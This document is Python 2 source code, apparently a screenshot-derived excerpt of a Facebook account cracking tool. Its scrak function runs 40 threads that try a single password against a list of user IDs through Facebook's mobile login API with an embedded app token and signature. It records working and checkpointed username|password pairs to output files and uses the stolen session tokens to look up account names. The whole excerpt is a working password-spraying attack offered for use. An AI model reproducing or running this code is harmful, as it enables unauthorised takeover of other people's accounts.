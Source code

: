 	passw = raw_input('\033[1;91m[+] \033[1;92mPassword \033[1;91m: \033[1;97m')
	try:
		file = open((idlist), "r")
		mkdir('\033[1;91m[✺] \033[1;92mStart \033[1;97m...')
		for x in range(40):
			pick = threading.Thread(target=scrak, args=())
			pick.start()
			threads.append(pick)
		for pick in threads:
			pick.join()
	except IOError:
		print ("\033[1;91m[!] File not found")
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_hack()

def scrak():
	global sucessful,checkpoint,action_failed,back,up
	try:
		os.mkdir('out')
	except OSError:
		pass
	try:
		open_it = open(idlist, "r")
		up = open_it.read().split()
		while file:
			username = file.readline().strip()
			url = "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(username)+"&locale=en_US&password="+(passw)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6"
			data = urllib.urlopen(url)
			mpsh = json.load(data)
			if back == (len(up)):
				break
			if 'access_token' in mpsh:
				bisa = open("out/mbf_ok.txt", "w")
				bisa.write(username+"|"+passw+"\n")
				bisa.close()
				x = requests.get("https://graph.facebook.com/"+username+"?access_token="+mpsh['access_token'])
				z = json.loads(x.text)
				sucessful.append("\033[1;97m[ \033[1;92mOK✓\033[1;97m ] "+username+"|" +passw+" =>"+z['name'])
			elif 'www.facebook.com' in mpsh["error_msg"]:
				check_it = open("out/mbf_cp.txt", "w")
				check_it.write(username+"|"+passw+"\n")
				check_it.close()
				checkpoint.append("\033[1;97m[ \033[1;93mCP✚\033[1;97m ] "+username+"|" +passw)
			else:
				action_failed.append(username)
				back +=1
			sys.stdout.write('\r\033[1;91m[\033[1;96m✸\033[1;91m] \033[1;92mCrack    \033[1;91m:\033[1;97m '+str(back)+' \033[1;96m>\033[1;97m '+str(len(up))+' =>\033[1;92mLive\033[1;91m:\033[1;96m'+str(len(sucessful))+' \033[1;97m=>\033[1;93mCheck\033[1;91m:\033[1;96m'+str(len(checkpoint)));sys.stdout.flush()
	except IOError:
		print"\n\033[1;91m[!] Sleep"
		time.sleep(0.01)
	except requests.exceptions.ConnectionError:
		print"\033[1;91m[✖] No connection"
